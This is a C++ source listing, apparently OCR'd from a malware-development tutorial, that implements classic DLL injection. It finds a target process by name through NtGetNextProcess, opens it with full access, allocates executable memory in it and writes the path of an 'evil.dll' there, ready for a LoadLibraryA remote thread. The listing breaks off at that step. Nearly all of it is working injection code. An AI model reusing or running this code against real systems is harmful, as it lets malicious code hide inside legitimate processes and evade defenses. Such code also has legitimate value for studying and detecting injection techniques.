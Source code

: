 ```cpp

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT),
   PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
```